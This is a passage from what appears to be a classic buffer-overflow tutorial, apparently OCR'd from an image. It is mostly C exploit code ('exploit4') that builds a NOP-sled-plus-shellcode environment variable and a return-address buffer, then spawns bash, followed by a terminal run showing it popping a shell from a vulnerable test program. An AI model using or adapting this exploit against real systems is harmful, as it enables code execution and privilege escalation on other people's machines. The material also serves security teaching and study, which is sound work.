unsigned long get_esp(void) {
   __asm__("movl %esp,%eax");
}

void main(int argc, char *argv[]) {
  char *buff, *ptr, *egg;
  long *addr_ptr, addr;
  int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;
  int i, eggsize=DEFAULT_EGG_SIZE;

  if (argc > 1) bsize   = atoi(argv[1]);
  if (argc > 2) offset  = atoi(argv[2]);
  if (argc > 3) eggsize = atoi(argv[3]);


  if (!(buff = malloc(bsize))) {
    printf("Can't allocate memory.\n");
    exit(0);
  }
  if (!(egg = malloc(eggsize))) {
    printf("Can't allocate memory.\n");
    exit(0);
  }

  addr = get_esp() - offset;
  printf("Using address: 0x%x\n", addr);

  ptr = buff;
  addr_ptr = (long *) ptr;
  for (i = 0; i < bsize; i+=4)
    *(addr_ptr++) = addr;

  ptr = egg;
  for (i = 0; i < eggsize - strlen(shellcode) - 1; i++)
    *(ptr++) = NOP;

  for (i = 0; i < strlen(shellcode); i++)
    *(ptr++) = shellcode[i];

  buff[bsize - 1] = '\0';
  egg[eggsize - 1] = '\0';

  memcpy(egg,"EGG=",4);
  putenv(egg);
  memcpy(buff,"RET=",4);
  putenv(buff);
  system("/bin/bash");
}
------------------------------------------------------------------------------

   Lets try our new exploit with our vulnerable test program:

------------------------------------------------------------------------------
[aleph1]$ ./exploit4 768
Using address: 0xbffffdb0
[aleph1]$ ./vulnerable $RET
$
------------------------------------------------------------------------------
